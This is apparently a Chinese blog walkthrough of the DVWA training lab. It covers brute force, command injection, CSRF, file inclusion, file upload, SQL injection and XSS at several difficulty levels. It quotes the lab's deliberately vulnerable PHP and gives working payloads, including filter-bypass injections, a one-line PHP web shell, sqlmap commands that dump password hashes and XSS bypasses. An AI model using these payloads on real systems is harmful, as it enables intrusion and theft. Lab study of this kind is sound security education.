



DVWA练习 随便扯扯 因为还是准备学习Web知识了，感觉光做题又有点脱离实际情况，就想着先整个靶场练习一下，朋友推荐了DVWA，有不同难度的，可以层层递进，感觉不错，就搭建起来先练练手。
Brute Force Low 在low的安全级别下，我们先看看源码。只是把username和password去数据库里查询，如果找到了匹配的就登录成功，否则就显示登录失败，并没有什么过滤和限制再次登录的说法。因此很容易用burp的intruder来爆破。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <?php if ( isset ( $_GET[ 'Login' ] ) ) { $user = $_GET[ 'username' ]; $pass = $_GET[ 'password' ]; $pass = md5( $pass ); $query = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';" ; $result = mysqli_query($GLOBALS["___mysqli_ston" ], $query ) or die ( '<pre>' . ((is_object($GLOBALS["___mysqli_ston" ])) ? mysqli_error($GLOBALS["___mysqli_ston" ]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false )) . '</pre>' ); if ( $result && mysqli_num_rows( $result ) == 1 ) { $row = mysqli_fetch_assoc( $result ); $avatar = $row["avatar" ]; $html .= "<p>Welcome to the password protected area {$user}</p>" ; $html .= "<img src=\"{$avatar}\" />" ; } else { $html .= "<pre><br />Username and/or password incorrect.</pre>" ; } ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston" ]))) ? false : $___mysqli_res); } ?>
用burp抓一下登录的包，然后用intruder来爆破。照理来说我们应该是要爆破账户和密码的，不过后台登录很多时候账号都是admin，我们可以先试一下，只爆破密码会快一些。
先clear掉所有的爆破项，手动选中password的值，用add添加。这里选sniper是因为只爆破了一个项，要是多个项就要选cluster bomb。
在Payload项中添加字典，用于暴力破解，我这里就用最普通的字典了
然后点右上角的attack就能开始爆破了。把结果排序一下就能看到最上面的就是不同的。那应该就是结果了

Medium 先看代码，和低级的区别并不大，可以看到在获取用户名和密码的时候，使用了mysqli_real_escape_string（）来进行转义，我们在low等级的时候可以输入不合法的字符，然后提交的时候就会报错，但是在medium等级，用户名会先经过mysqli_real_escape_string，这样字符就被转义了。但是这并不影响我们使用爆破的方式去爆密码。不过如果通过sql注入的方式就会发现没有办法注入了。
比如我们在low等级下可以发现，但是在中级就不能注入了。
1 [20:31:49] [INFO] GET parameter 'username' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
High 再看代码，多了一个anti csrf token的检测。这个token在网页中，每次都会变，在发送请求的时候会带上这个token一起去校验，如果token错误就不会触发后面的行为了，所以我们在爆破的时候得每次都先获取这个token，并且一起发送出去。
1 checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
要怎么得到这个token呢，可以看到，这个token是直接在网页中就存在的，不是动态生成的，那这样我们就能先拿到token，再发送请求。（如果是JavaScript动态生成的话有点难整，因为burp不会运行js的语句，当然也有办法的，这个看起来是可以的传送门 ）
1 2 3 4 5 6 7 8 9 <form action ="#" method ="GET" > Username:<br /> <input type ="text" name ="username" > <br /> Password:<br /> <input type ="password" AUTOCOMPLETE ="off" name ="password" > <br /> <br /> <input type ="submit" value ="Login" name ="Login" > <input type ='hidden' name ='user_token' value ='f8e37d5d871173da31001f1e7202ed62' /> </form >
网上大部分的思路都是使用python先解析网页，得到token之后再自己构造请求发送，但是像我这样的终极菜鸡都不太愿意写脚本，（其实是写太慢了）如果有办法用工具就不用自己写了。这种静态的burp还是绰绰有余的。老规矩，先抓包，放到Intruder，标记上变量。Attack type选择pitchfork，关键在于解析出token在网页中的位置。使用grep match功能。
然后password按照之前添加字典的方式，user_token选择Recursive grep，开始爆破就行了。但是Recursive grep只能开单线程爆破很慢。
Command injection Low 这关low等级的还是挺简单的，先看看源码，直接把输入的东西拼在ping后面就开始执行了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?php if ( isset ( $_POST[ 'Submit' ] ) ) { $target = $_REQUEST[ 'ip' ]; if ( stristr( php_uname( 's' ), 'Windows NT' ) ) { $cmd = shell_exec( 'ping ' . $target ); } else { $cmd = shell_exec( 'ping -c 4 ' . $target ); } $html .= "<pre>{$cmd}</pre>" ; } ?>
那最简单的就是附加一个命令一起执行呗，比如输入192.168.1.103 && notepad这样就会先执行ping 192.168.1.103然后就打开一个记事本（我这里的环境是搭在windows上的）。
Medium 这题有点迷，medium开始有过滤了，但是是过滤了&& 和 ；
1 2 3 4 5 $substitutions = array ( '&&' => '' , ';' => '' , );
我就直接用&来打了。192.168.1.101 & notepad等前面ping完了，就会执行notepad了。
High 这个过滤更全了。看一下黑名单
1 2 3 4 5 6 7 8 9 10 11 12 $substitutions = array ( '&' => '' , ';' => '' , '| ' => '' , '-' => '' , '$' => '' , '(' => '' , ')' => '' , '`' => '' , '||' => '' , );
看起来没什么问题， 但是仔细看看'| '这里多了一个空格，那么还是可以用|来打
127.0.0.1|notepad
常用的拼接
多命令执行符
格式
作用
;
命令1;命令2
多个命令顺序执行，命令之间无任何逻辑关系
&&
命令1&&命令2
逻辑与：命令1正确执行后，命令2才会正确执行，否则命令2不会执行
| |
命令1 | |命令2
逻辑或：命令1不正确执行后，命令2才会正确执行，否则命令2不会执行
&
命令1&命令2
命令同时执行
Impossible 后台把IP地址按.分开，检验每个段，再拼成ip地址的格式，这样就不存在这些问题了。
CSRF Low 低级的源码并没有什么保护机制，只验证发来的密码两次是否一致。如果一致，就直接能改成功了。所以直接生成一个链接，让别人用常用浏览器打开就可以了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 $pass_new = $_GET[ 'password_new' ]; $pass_conf = $_GET[ 'password_conf' ]; if ( $pass_new == $pass_conf ) { $pass_new = ((isset ($GLOBALS["___mysqli_ston" ]) && is_object($GLOBALS["___mysqli_ston" ])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston" ], $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work." , E_USER_ERROR)) ? "" : "" )); $pass_new = md5( $pass_new ); $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';" ; $result = mysqli_query($GLOBALS["___mysqli_ston" ], $insert ) or die ( '<pre>' . ((is_object($GLOBALS["___mysqli_ston" ])) ? mysqli_error($GLOBALS["___mysqli_ston" ]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false )) . '</pre>' ); $html .= "<pre>Password Changed.</pre>" ; } else { $html .= "<pre>Passwords did not match.</pre>" ; }
访问这个链接就行了：
1 http://192.168.1.106/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change
Medium 中级添加了一些限制，要求HTTP_REFERER必须包含SERVER_NAME。
1 2 3 if ( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { }
比如我们在服务器上放一个html文件，并且其内容为：
1 2 3 <img src ="http://192.168.1.106/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change" border ="0" style ="display:none;" /> <h1 > 404<h1 > <h2 > file not found.<h2 >
我们来看一下referer长什么样

那么只要把这个文件名改成192.168.1.106.html就行了呗。
High 增加了动态token验证，如果要修改密码，必须先要得到用户的token，如果我们还是像medium那样在自己的服务器上构造一个先给DVWA后台发请求，再解析user_token，再发起请求的方式攻击可以么。并不可以，因为存在跨站请求，这样是不会被允许的。那思路就只能是想办法在DVWA服务器上放上这个内容，这样发起的请求就不是跨站的了。那就得利用后面的XSS来做了，这里我还没做到，先这样把。
File Include Low 啥都没保护，直接访问就行了，甚至可以路径穿越，访问别的地方。
<http://192.168.1.106/DVWA/vulnerabilities/fi/?page=file4.php>
Medium 这个保护过滤了../和..\防止路径穿越，还会把http://和https://过滤
1 2 3 4 5 6 7 <?php $file = $_GET[ 'page' ]; $file = str_replace( array ( "http://" , "https://" ), "" , $file ); $file = str_replace( array ( "../" , "..\"" ), "" , $file ); ?>
但是想要访问file4.php还是直接访问就行了。
High 限制了文件名的格式，只能访问file*.php，但是访问file4.php还是没问题，不知道这里是不是让我这样做的，感觉很奇怪。
1 2 3 4 5 6 7 8 9 10 <?php $file = $_GET[ 'page' ]; if ( !fnmatch( "file*" , $file ) && $file != "include.php" ) { echo "ERROR: File not found!" ; exit ; } ?>
Impossible 只能读取file1-3.php，其他都不能读取，这样写死了应该就没办法了的。
1 2 3 4 5 6 if ( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) { echo "ERROR: File not found!" ; exit ; }
File Upload 文件上传漏洞应该是比较大的问题了，如果能上传一句话木马那很可能直接控制服务器了。一般在上传的地方都会有严谨的校验逻辑，确保上传的文件是安全的。这里我们只要能上传shell并能执行命令就算过了。
Low 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php if ( isset ( $_POST[ 'Upload' ] ) ) { $target_path = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/" ; $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] ); if ( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) { $html .= '<pre>Your image was not uploaded.</pre>' ; } else { $html .= "<pre>{$target_path} succesfully uploaded!</pre>" ; } } ?>
啥保护都没有，直接上传一个shell.php就行了。
<?php echo shell_exec($_GET['cmd']);?>
Meduim 中级的就开启了保护，验证文件的类型，只允许图片类型的jpeg和png文件
1 2 3 4 if ( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) && ( $uploaded_size < 100000 ) ) { }
这里我把shell.php改了后缀，shell.php.jpg能上传成功，但是不能用get请求执行命令了，用工具连也没有用，不知道这里是什么问题（下次去问问别人）。但是可以用burp改type的类型，来达到上传的目的。
High 这里源码直接限制文件名结尾只能是.jpg或者.png或者其大小写，不能为其他的了, 同时还使用了getimagesize()来保证上传的文件头是图片格式
1 2 3 4 5 6 if ( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) && ( $uploaded_size < 100000 ) && getimagesize( $uploaded_tmp ) ) { }
这里应该是上传一句话图片木马来打，但是我传过去之后，shell连不上，应该是要让这个图片以php解析而不是以图片解析。所以要用到上面的文件包含漏洞，但是High等级的文件包含过滤了../之类的，不能包含我上传的这个文件。目前还不知道咋整，再说吧。
SQL Injection Low 没有过滤，而且错误还会用mysqli_error($GLOBALS["___mysqli_ston"])报错。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 ?php if ( isset ( $_REQUEST[ 'Submit' ] ) ) { $id = $_REQUEST[ 'id' ]; $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';" ; $result = mysqli_query($GLOBALS["___mysqli_ston" ], $query ) or die ( '<pre>' . ((is_object($GLOBALS["___mysqli_ston" ])) ? mysqli_error($GLOBALS["___mysqli_ston" ]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false )) . '</pre>' ); while ( $row = mysqli_fetch_assoc( $result ) ) { $first = $row["first_name" ]; $last = $row["last_name" ]; $html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>" ; } mysqli_close($GLOBALS["___mysqli_ston" ]); } ?>
先测试一下确定有注入的地方。
1' and '1' = '1有回显；1' and '1' = '2没有，确认这里有注入。
1 python sqlmap.py -u "http://192.168.1.106/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=kf0bru11u9hvor8eekks8u4rm3" --batch
查库，有了
1 2 3 4 5 6 7 8 9 python sqlmap.py -u "http://192.168.1.106/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=kf0bru11u9hvor8eekks8u4rm3" --dbs --batch [16:17:34] [INFO] fetching database names available databases [5]: [*] dvwa [*] information_schema [*] mysql [*] performance_schema [*] test
指定数据库，查表
1 2 3 4 5 6 7 8 9 python sqlmap.py -u "http://192.168.1.106/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=kf0bru11u9hvor8eekks8u4rm3" -D dvwa --tables --batch [16:18:54] [INFO] fetching tables for database: 'dvwa' Database: dvwa [2 tables] +-----------+ | guestbook | | users | +-----------+
指定表
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 python sqlmap.py -u "http://192.168.1.106/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=kf0bru11u9hvor8eekks8u4rm3" -D dvwa -T users --columns --batch [16:20:24] [INFO] fetching columns for table 'users' in database 'dvwa' Database: dvwa Table: users [8 columns] +--------------+-------------+ | Column | Type | +--------------+-------------+ | user | varchar(15) | | avatar | varchar(70) | | failed_login | int(3) | | first_name | varchar(15) | | last_login | timestamp | | last_name | varchar(15) | | password | varchar(32) | | user_id | int(6) | +--------------+-------------+
然后dump就完事了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 python sqlmap.py -u "http://192.168.1.106/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=kf0bru11u9hvor8eekks8u4rm3" -D dvwa -T users --dump --batch Database: dvwa Table: users [5 entries] +---------+-----------------------------+---------+---------------------------------------------+-----------+------------+---------------------+--------------+ | user_id | avatar | user | password | last_name | first_name | last_login | failed_login | +---------+-----------------------------+---------+---------------------------------------------+-----------+------------+---------------------+--------------+ | 1 | /hackable/users/admin.jpg | admin | 76d80224611fc919a5d54f0ff9fba446 (qwe) | admin | admin | 2019-04-09 13:06:57 | 0 | | 2 | /hackable/users/gordonb.jpg | gordonb | e99a18c428cb38d5f260853678922e03 (abc123) | Brown | Gordon | 2019-04-07 16:15:51 | 0 | | 3 | /hackable/users/1337.jpg | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b (charley) | Me | Hack | 2019-04-07 16:15:51 | 0 | | 4 | /hackable/users/pablo.jpg | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein) | Picasso | Pablo | 2019-04-07 16:15:51 | 0 | | 5 | /hackable/users/smithy.jpg | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith | Bob | 2019-04-07 16:15:51 | 0 | +---------+-----------------------------+---------+---------------------------------------------+-----------+------------+---------------------+--------------+
手动注入
猜列数
1' order by 3#报错，1' order by 2#正常，说明列数为2。
查看数据库信息
1' union select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA#
查看表的信息
1' union select 1, group_concat(table_name) from information_schema.tables where table_schema='dvwa'#
获取列名
1' union select 1, group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'#
获取内容，用limit限制一行一行的输出
1' union select 1, (select concat_ws(char(32, 58, 32), user, password) from users limit 1, 1)#

Medium 中级的不再是一个输入框了，变成了下拉选取框，可以看到是通过post请求发送的了。
1 2 3 4 5 6 $id = $_POST[ 'id' ]; $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston" ], $id); $query = "SELECT first_name, last_name FROM users WHERE user_id = $id;" ; $result = mysqli_query($GLOBALS["___mysqli_ston" ], $query) or die ( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston" ]) . '</pre>' );
但是问题不大，我们用burp抓包之后，把包保存到一个txt文件中，使用sqlmap先试一下爆破，这里需要用-p指定一下参数，我们能控制的是username这个参数，这里就不演示了，同样还是能注入的。
1 python sqlmap.py -r "~/Desktop/map.txt" -p username
XSS(DOM) DOM XSS是说那种把脚本嵌在网页本身里头的，这里就是这个选择语言的下拉框，要体会和后面反射型XSS以及存储型XSS的区别。
Low 后端没有代码，看看前端，选啥就在文档中写入啥。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <form name="XSS" method="GET"> <select name="default"> <script> if (document.location.href.indexOf("default=") >= 0) { var lang = document.location.href.substring(document.location.href.indexOf("default=")+8); document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>"); document.write("<option value='' disabled='disabled'>----</option>"); } document.write("<option value='English'>English</option>"); document.write("<option value='French'>French</option>"); document.write("<option value='Spanish'>Spanish</option>"); document.write("<option value='German'>German</option>"); </script> </select> <input type="submit" value="Select" /> </form>
Medium 中级开始做了一些简单的过滤，比如果过滤<script>标签，那就用<img >标签绕过好了
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php if ( array_key_exists( "default" , $_GET ) && !is_null ($_GET[ 'default' ]) ) { $default = $_GET['default' ]; if (stripos ($default, "<script" ) !== false ) { header ("location: ?default=English" ); exit ; } } ?>
<img src=1 onerror=alert(/xss/)>，但是发现并没有像想象一样弹出，去看看现在页面的内容
发现整个标签被包在<option>标签里面，似乎没有生效。那先闭合它吧，但是发现还是不行，再看发现<select>标签也需要闭合，所以最后的payload/option></select><img src=1 onerror=alert(/xss/)>
High 高级的在后端做了一个case选择，判断发来的内容。这里要用到一个特性，看看help文件里怎么说的：The fragment section of a URL (anything after the # symbol) does not get sent to the server and so cannot be blocked. The bad JavaScript being used to render the page reads the content from it when creating the page.
就是说#后面的东西不会发给服务器，那这样截断就可以绕过白名单检测。
English#<script>alert(/xss/)</script>
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <?php if ( array_key_exists( "default" , $_GET ) && !is_null ($_GET[ 'default' ]) ) { switch ($_GET['default' ]) { case "French" : case "English" : case "German" : case "Spanish" : break ; default : header ("location: ?default=English" ); exit ; } } ?>
反射型XSS 反射型XSS抄一段解释:用户通过Web客户端提交给服务端的数据，立刻用于解析和显示该用户的结果页面(数据没有在服务端存储) 。如果提交的数据中含有恶意的脚本代码，而服务端没有经过编码转换或者过滤，就会形成XSS攻击，这种形式的XSS称为反射型XSS。
Low 啥防护都没有，发来的数据立刻用于显示
1 2 3 4 5 6 7 8 9 10 11 <?php header ("X-XSS-Protection: 0" ); if ( array_key_exists( "name" , $_GET ) && $_GET[ 'name' ] != NULL ) { $html .= '<pre>Hello ' . $_GET[ 'name' ] . '</pre>' ; } ?>
直接xss <script>alert(/xss/);</script>
Medium 中级做了防护，过滤<script>标签，但是只过滤了小写的，大写的没有过滤，我们用大写一样可以xss
<SCRIPT>alert(/xss/);</script>
High 高级用正则匹配过滤了大小写的<script>标签，跟dom类似，我们也可以使用img标签绕过。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php header ("X-XSS-Protection: 0" ); if ( array_key_exists( "name" , $_GET ) && $_GET[ 'name' ] != NULL ) { $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i' , '' , $_GET[ 'name' ] ); $html .= "<pre>Hello ${name}</pre>" ; } ?>
Impossible 用了htmlspecialchars把输入都转成html实体，这样就不会被解析了。w3c上这么写的：把 < 和 > 转换为实体常用于防止浏览器将其用作 HTML 元素。当用户有权在您的页面上显示输入时，对于防止代码运行非常有用。